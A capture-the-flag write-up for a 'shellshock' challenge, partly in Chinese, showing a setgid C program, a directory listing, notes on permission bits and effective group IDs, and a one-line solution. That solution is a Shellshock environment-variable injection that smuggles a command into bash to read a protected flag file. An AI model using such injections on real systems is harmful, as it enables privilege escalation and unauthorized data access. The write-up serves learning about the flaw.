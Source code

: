 # shellshock

### shellshock.c
``` c
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}
```

### file 
```
shellshock@prowl:~$ ls -la
total 980
drwxr-x---   5 root shellshock       4096 Oct 23  2016 .
drwxr-xr-x 114 root root             4096 May 19 15:59 ..
-r-xr-xr-x   1 root shellshock     959120 Oct 12  2014 bash
d---------   2 root root             4096 Oct 12  2014 .bash_history
-r--r-----   1 root shellshock_pwn     47 Oct 12  2014 flag
dr-xr-xr-x   2 root root             4096 Oct 12  2014 .irssi
drwxr-xr-x   2 root root             4096 Oct 23  2016 .pwntools-cache
-r-xr-sr-x   1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r--   1 root root              188 Oct 12  2014 shellshock.c
```

          link number   file group
             |              |
-r-xr-sr-x   1 root shellshock_pwn   8547 Oct 12  2014 shellshock
    |            |                     
file permission  owner

## 檔案屬性
```
-r--r-----   1 root shellshock_pwn     47 Oct 12  2014 flag
-r-xr-sr-x   1 root shellshock_pwn   8547 Oct 12  2014 shellshock
```
`-`   : d for directory, - for file, l for link file\
rwx\
r-x : first is for file owner\
r-s : second is for user in this group\
r-x : the other\
where `s` stand for set owner user id on execution (s), so you can use root permission to execute this file temporary.


## what is getegid() ? and what egid do ?

[`see this first`](https://jvns.ca/blog/2017/11/20/groups/)\
`egid` stand for `effective group id` , `effetctive id ` is used for access check. 

## solution
The title of this challenge is `shellshock`, so let's google it first !
So use this hint :\
![shellshock](https://www.symantec.com/connect/sites/default/files/users/user-2598031/shellshock-command-diagram-600px_v2.png)

So :
```
env val='() { :;}; cat flag' ./shellshock
```